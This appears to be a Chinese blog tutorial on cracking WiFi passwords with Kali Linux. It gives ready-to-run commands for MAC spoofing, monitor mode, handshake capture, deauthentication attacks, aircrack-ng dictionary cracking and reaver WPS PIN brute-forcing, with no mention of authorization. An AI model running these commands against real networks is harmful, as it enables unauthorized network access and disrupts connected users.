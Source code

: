 ```yaml
---
title: Kali-Linux破解WIFI
categories:
  - kali
toc: false
date: 2018-11-07 09:05:46
tags:
---
```

摘要暂略。
<!-- more -->

一些参考链接：  
[无线安全专题01--kali破解WPA](https://www.jianshu.com/p/430ae3c978d9)。  
[无线安全专题_破解篇02--kali破解pin码](https://www.jianshu.com/p/a8439e777af7)。  
[Aircrack除破解WiFi密码外的趣味玩法](https://www.freebuf.com/articles/wireless/59809.html)。  
[完全教程 Aircrack-ng破解WEP、WPA-PSK加密利器](http://netsecurity.51cto.com/art/201105/264844.htm)。  

#### 查看无线网络
用`ifconfig`或`ip addr`等命令查看网络接口：
```
root@KL:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 11:22:33:44:55:66 brd ff:ff:ff:ff:ff:ff
    inet 192.168.43.129/24 brd 192.168.43.255 scope global dynamic noprefixroute eth0
       valid_lft 1522sec preferred_lft 1522sec
    inet6 fe80::20c:29ff:fea4:125/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 10:20:30:40:50:60 brd ff:ff:ff:ff:ff:ff
4: wlan1: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 1a:2b:3c:4d:5e:6f brd ff:ff:ff:ff:ff:ff
root@KL:~#
```
可知，此时有`wlan0`和`wlan1`两个无线网卡。

#### 修改MAC地址
```shell
macchanger --help
macchanger --mac=XX:XX:XX:XX:XX:XX device
macchanger --random device
# 例
ifconfig wlan0 down
macchanger --random wlan0
ifconfig wlan0 up
```

#### 无线网卡启动监听模式
```shell
airmon-ng <start|stop> <interface> [channel] airmon-ng <check> [kill]
# 例
airmon-ng check kill      # 列出可能的干扰程序并尝试清除它们
airmon-ng                 # 查看所有无线网卡的当前状态
airmon-ng start wlan0     # 在接口(wlan0)上启动监听(monitor)模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否启动成功)
# 一般(wlan0)启动监听模式后名字会变为(wlan0mon)
airmon-ng stop  wlan0mon  # 禁用监听模式并返回到托管模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否禁用成功)
```

#### 捕获握手包
```shell
airodump-ng [options] <interface name>
--ivs                 : Save only captured IVs
--write      <prefix> : Dump file prefix
-w                    : same as --write
--bssid     <bssid>   : Filter APs by BSSID
--channel <channels>  : Capture on specific channels
# 例
airodump-ng wlan0mon  # 捕获WIFI范围内的无线信息
airodump-ng --ivs --bssid 1a:2b:3c:4d:5e:6f --write ./testData wlan0mon  # 捕获握手包并保存到testData开头的文件中
```
备注：`--ivs`仅保存捕获的IVs报文。可以缩减文件大小。  
备注：可以用`ivstools --convert data.cap data.ivs`把cap文件转为ivs文件以缩减大小。

#### 解除认证攻击
```shell
aireplay-ng [options] <replay interface>
 -a <bssid>
    Set Access Point MAC address.
-c <dmac>
    Set destination MAC address.
-0 <count>, --deauth=<count>
    This attack sends deauthentication packets to one or more clients which are currently associated with a particular access point.  Deauthenticating  clients  can  be done  for  a  number  of reasons: Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is "cloaked" or Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate or Generate ARP requests (Windows clients sometimes flush their ARP  cache  when  disconnected).   Of  course,  this attack is totally useless if there are no associated wireless client or on fake authentications.
    这个攻击发送解除认证的数据包给一个或多个客户端(当前与指定AP关联)。期望能捕获WPA/WPA2握手包。
# 例
aireplay-ng -a AP的MAC -c Client的MAC --deauth=3 wlan0mon
```

#### 字段解释
`man airodump-ng`的最下方有这个例子。
```
airodump-ng -c 9 wlan0mon

Here is an example screenshot:

-----------------------------------------------------------------------
CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ BAT: 2 hours 10 mins ][ WPA handshake: 00:14:6C:7E:40:80

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID

00:09:5B:1C:AA:1D   11  16       10        0    0  11  54. OPN              <length: 7>
00:14:6C:7A:41:81   34 100       57       14    1   9  11  WEP  WEP         bigbear
00:14:6C:7E:40:80   32 100      752       73    2   9  54  WPA  TKIP   PSK  teddy

BSSID              STATION            PWR   Rate   Lost   Frames  Probes

00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   11-11     2       14  bigbear
(not associated)   00:14:A4:3F:8D:13   19   11-11     0        4  mossy
00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1    11-2     0        5  bigbear
00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   36-24     0       99  teddy
-----------------------------------------------------------------------
  BSSID: MAC地址。
    PWR: 信号强度。数字越大(负数越接近0)信号越强。-1表示无效值。
    RXQ: 略。
Beacons: AP(access point)发送的信号浮标的数量。最低速率下每个AP每秒大约发送10个信标。
  #Data: 捕获的数据包的数量。
    #/s: 每秒的数据包的数量(测量最近10秒内的数据)。
     CH: channel号(从信标包中取得)。
     MB: AP支持的最大速度。不用管它。常见值：11、22、54、54.、54e、54e.、。
    ENC: 正在使用中的加密算法。
 CIPHER: 检测到的加密解密引擎？
   AUTH: 使用的身份验证协议。
  ESSID: 所谓的SSID，WIFI的名字。
STATION: (连到AP上(和)没有连到AP上)的client的MAC地址。
   Rate: 速率。第1个数字：AP到client的最新速率；第二个数字：client到AP的最新速率。
   Lost: 来自client的包的丢失的数量。
```

#### 恢复WEP/WPA-PSK密码
```
aircrack-ng [options] <.cap / .ivs file(s)>
-b <bssid> : target selection: access point's MAC
-p <nbcpu> : # of CPU to use  (default: all CPUs)
-q         : enable quiet mode (no status output)
-l <file>  : write key to file
-w <words> : path to wordlist(s) filename(s)
             Here is a list of wordlists: 
             http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists
# 例
aircrack-ng -b AP的MAC -w 字典文件 -l 结果文件  cap文件或ivs文件
```
在[Aircrack-ng](http://www.aircrack-ng.org/)的[Windows](https://download.aircrack-ng.org/aircrack-ng-1.4-win.zip)能下载到`aircrack-ng.exe`程序。然后我们就可以在Windows下进行破解了。Windows下可以如下执行：
```bat
cd .\aircrack-ng-1.4-win\bin\32bit\
aircrack-ng.exe -b 1A:2B:3C:4D:5E:6F -w C:\字典\dict.txt  D:/data/testData*.cap  -l D:/data/testData_result.txt
```

#### KaliLinux自带的字典
[wordlists | Penetration Testing Tools](https://tools.kali.org/password-attacks/wordlists)。  
```shell
字典路径:  /usr/share/wordlists/rockyou.txt.gz
# 解压命令
gunzip -c /usr/share/wordlists/rockyou.txt.gz > ./rockyou.txt
```

#### 爆破WPS的pin码
扫描WIFI。WPS的Lck为No的都可以爆破试试。
```shell
wash --help
# 例
wash -i wlan0mon
```
WPS的pin码的爆破的命令：
```shell
reaver -i <interface> -b <target bssid> -vv
-i, --interface=<wlan>          Name of the monitor-mode interface to use
-b, --bssid=<mac>               BSSID of the target AP
-c, --channel=<channel>         Set the 802.11 channel for the interface (implies -f)
-v, --verbose                   Display non-critical warnings (-vv or -vvv for more)
-d, --delay=<seconds>           Set the delay between pin attempts [1]
-t, --timeout=<seconds>         Set the receive timeout period [10]
-S, --dh-small                  Use small DH keys to improve crack speed
# 例
reaver -i wlan0mon -b 00:14:6C:7A:41:81 -S -v
```

#### 其他

* 我该怎么装软件？  
`Kali Linux`和`Ubuntu`都是`Debian`的分支。你可以`apt-get install gcc`安装软件。  

* 怎么禁用`Automatic suspend`？
```
Automatic suspend
Computer will suspend very soon because of inactivity.
```
The solution is to disable automatic suspend:
```
Open GNOME Control Center, go to Power tab (or simply gnome-control-center power)
In Suspend & Power Button set Automatic suspend, to Off when Plugged In.
```

